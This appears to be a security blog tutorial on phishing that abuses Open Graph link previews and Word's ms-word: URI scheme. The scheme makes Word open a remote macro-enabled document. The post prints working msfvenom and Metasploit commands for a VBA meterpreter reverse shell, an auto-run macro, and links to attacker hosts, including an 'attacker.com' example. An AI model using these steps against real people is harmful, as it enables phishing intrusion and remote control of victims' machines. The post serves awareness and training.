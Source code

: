 ```yaml
---
title: Abusing OG Protocol With Macros
date: 2025-03-06 00:00:00 +0200
categories:
  - phishing
tags:
  - phishing
---
```

**Disclaimer:**

This post is for **educational and informational purposes only**. It is intended to raise awareness about how certain technologies work and should **not** be used for any malicious or unethical activities. Misusing this information may violate laws and terms of service, leading to serious legal consequences. The author **does not** encourage or condone any illegal actions. **Use this knowledge responsibly.**
# Introduction
Hello there! I’m Mohamed Aboelnasr, and in this article, we’ll dive into how adversaries can weaponize the **Open Graph (OG) protocol** and **macros inside Word files** to craft **effective phishing attacks** and achieve initial access. By combining these two techniques, attackers can enhance social engineering tactics and bypass common security measures. 

---
### What Are Macros in Microsoft Word?
Macros in Microsoft Word are **automated sequences of commands** written in **Visual Basic for Applications (VBA)** that perform repetitive tasks. They allow users to automate workflows, but they are also **a common attack vector** exploited by adversaries for malicious purposes.
#### How?
1. **Delivery** – The attacker sends a phishing email with a **Word document attachment** (e.g., "Invoice.docm" or "Urgent_Report.docm").
2. **Social Engineering** – The document tricks the user into **enabling macros** by displaying fake warnings (e.g., "This document is protected, enable macros to view content").
3. **Execution** – Once macros are enabled, the VBA script:
    - **Downloads and executes malware** (like a RAT, ransomware, or keylogger).
    - **Runs PowerShell or CMD commands** to create a backdoor.
    - **Modifies system settings** to establish persistence.
4. **Compromise** – The attacker gains **initial access** to the system, which can lead to full compromise.  

in the following image is how macros are added to a word file 
![Image](https://github.com/user-attachments/assets/46412b21-d2ce-403c-8c94-eb1da48ec446)

There are **auto-execution macros**, meaning they run or executed **automatically** when a Word document is opened, e.g., `AutoOpen()` and `Document_Open()` auto macros.
```vba
Sub AutoOpen()
    Dim str As String
    str = "calc.exe"
    Shell str, vbNormalFocus
End Sub
```

> _For the sake of this demo, we will simply open `calc.exe` to demonstrate how macros work. This harmless example illustrate how attackers can use VBA to execute commands on a victim's machine._

![Image](https://github.com/user-attachments/assets/6a1c995a-decd-4c0e-9138-dea7a882919f)
now anyone opens this document and enables the macros the calculator will open.
![Image](https://github.com/user-attachments/assets/c50cf3c5-5a18-4384-8b35-95bf1931e7d2)

---
### What Are Open Graph (OG):
Open Graph (OG) is a metadata protocol introduced by Facebook that allows web pages to control how their content appears when shared on social media platforms. By using OG meta tags, websites can define the title, description, image, and URL displayed in link previews, making shared links more visually appealing and engaging. While OG is designed for legitimate content sharing, adversaries can manipulate it to craft deceptive previews that enhance phishing and social engineering attacks.
In the following image, you can see how a shared post or link might appear on social media:

![Image](https://github.com/user-attachments/assets/8324182a-2fee-4d35-9a99-ccf9effce8e3)

This preview is controlled by **Open Graph (OG) meta tags** embedded within an HTML file. Below is an example of OG metadata that defines how this link is displayed when shared:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta property="og:title" content="Unveiling Hidden Secrets">
    <meta property="og:description" content="A deep dive into deceptive techniques used in phishing and social engineering attacks.">
    <meta property="og:image" content="https://example.com/dark-secrets.jpg">
    <meta property="og:url" content="https://example.com/phishing-techniques">
    <title>Unveiling Hidden Secrets</title>
</head>
<body>
    <h1>How Attackers Manipulate Open Graph</h1>
    <p>Explore how adversaries exploit OG metadata to craft deceptive link previews.</p>
</body>
</html>
```

These **OG meta tags** tell platforms like **Facebook, Twitter, and LinkedIn** how to display the **title, description, image, and URL** when the page is shared. **Attackers often abuse this to create misleading previews** that look legitimate but lead to malicious websites. 

---
### **How Do Apps Like Zoom or Teams Open from a Browser Click?**
Have you ever clicked a meeting link and suddenly **Zoom, Microsoft Teams, or another app pops up**—seamlessly opening the meeting? This isn't magic; it's made possible by **Custom URI Schemes**.
let's take a step back and talk about a custom URI Scheme
### **What Is a Custom URI Scheme?**
A **Custom URI Scheme** allows installed applications to define their own **protocol handlers**, enabling browsers to interact directly with them. Instead of just opening a webpage, a **custom URL can launch an app** and pass specific instructions.
#### **Examples of Custom URI Schemes :**

- **Zoom:** `zoommtg://zoom.us/join?confno=123456789` → Opens the Zoom app and joins a meeting.
- **Microsoft Teams:** `msteams://teams.microsoft.com/l/meetup-join/...` → Launches Teams and joins a meeting.

#### **How Custom URI Schemes Registered in Windows :**
i created a custom uri for opening the notepad just for demonstration, and it's not hard you just need to register a custom uri in the registry editor as the following
1. Open **Registry Editor** (`regedit`).
2. create a new key name it notepad and Navigate to it and add a new string named 'URL Protocol' with empty value:
    ```
    HKEY_CLASSES_ROOT\notepad
    ```
    
3. Create a **new key** named `shell\open\command`.
4. Set the **default value** of `command` to:
    
    ```
    C:\Windows\System32\notepad.exe
    ```
    ![Image](https://github.com/user-attachments/assets/7bcc1a58-ac09-4fdd-a1f3-217d870b0755)
5. Now, typing `notepad://` in a browser or Run dialog `Win+R` will open Notepad.
![Image](https://github.com/user-attachments/assets/94fa6896-e5a0-42b5-b84b-ae401f39c29d)

---
### **How Attackers Exploit This Mechanism**

While these schemes are designed for convenience, **attackers can take advantage of them** to launch **malicious actions with minimal user interaction**. A well-crafted phishing attack might:
1. **Use Open Graph (OG) manipulation** to create a fake, enticing preview of a "secure document" or "urgent meeting."
2. **Embed a malicious Custom URI link** (e.g., `ms-word:ofe|u|https://attacker.com/malicious.docm`).
3. **When clicked, the link directly opens MS Word, Excel, or another app**, automatically retrieving a remote **macro-enabled** document.
4. **If macros are enabled, the malicious code executes**, leading to initial compromise.

And that is what we are going to do :"

---
first we will generate a vba reverse shell code using msfvenom
```sh
msfvenom -x x64 -p windows/x64/meterpreter/reverse_tcp lport=443 lhost=192.168.1.8 -f vba |xsel --clipboard

```
![Image](https://github.com/user-attachments/assets/c78859c6-2b9d-41bd-a10e-583fd9166066)

and start the listener using the multi/handler module in metasploit
```sh
msfconsole -x "use multi/handler;set lhost 192.168.1.8;set lport 443;set payload windows/x64/meterpreter/reverse_tcp;run"
```
next make a word document file with macros that will contain the shellcode generated from msfvenom
![Image](https://github.com/user-attachments/assets/bb8de95f-ca9a-4a27-83e7-5d9c7fdff329)

After setting up the malicious document, the attacker hosts or embeds it on a website. Now, all they need is for someone to **click the link**, which will open the document **directly in Microsoft Word**. If the victim enables macros, the attack is successful—simple and effective.
![Image](https://github.com/user-attachments/assets/d1cd2f07-ae69-4798-9669-5c4f8b6348d7)
```html
<a href="ms-word:ofe|u|http://192.168.1.8:8080/mymacro.doc"class="btn quote" >
Seek the Truth
</a>
```
- **`ms-word:`** → The **custom URI scheme** registered by Microsoft Word.
- **`ofe|u|`** → Special flags that tell Word how to handle the document:
    - **`ofe`** → Open in **editing mode**.
    - **`u`** → Specifies that the file is located at a URL.
- **`http://192.168.1.8:8080/mymacro.doc`** → The actual **document URL** to be opened.
When this link is executed (e.g., pasted in a browser’s address bar or run via `Win + R`), Microsoft Word will:
1. **Launch Word (if not already open).**
2. **Fetch the document** from the specified URL.
3. **Open it directly** in **editable mode**.
and just by convincing the victim to just visit the site and clicks the button
![Image](https://github.com/user-attachments/assets/db3e6002-d05d-4566-a5bb-b78f1709c11d)
he will be prompted to open Microsoft Word
![Image](https://github.com/user-attachments/assets/55ef5ea1-0924-4410-8ee0-4bc17ded66b8)
the word will start downloading the file and opens it
![Image](https://github.com/user-attachments/assets/6becc8e7-17ba-435a-b91d-604e3d4beb9e)

and if the victim enables editing and macros the malicious code will execute and the attacker will get a reverse shell connection back to his C2 or listener.
![Image](https://github.com/user-attachments/assets/937bd8c5-71f7-498f-89a5-aede10ff4bfc)

And that’s it. I hope no one gets tricked by this. and Remember, this is for educational purposes only— please please do not use it maliciously.  
stay safe people..
 
 ---
### References

- [Microsoft Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes#13-uri-schema)
- [Open Graph Protocol](https://ogp.me/)
- [What is Open Graph and How Can I Use It?](https://www.freecodecamp.org/news/what-is-open-graph-and-how-can-i-use-it-for-my-website/)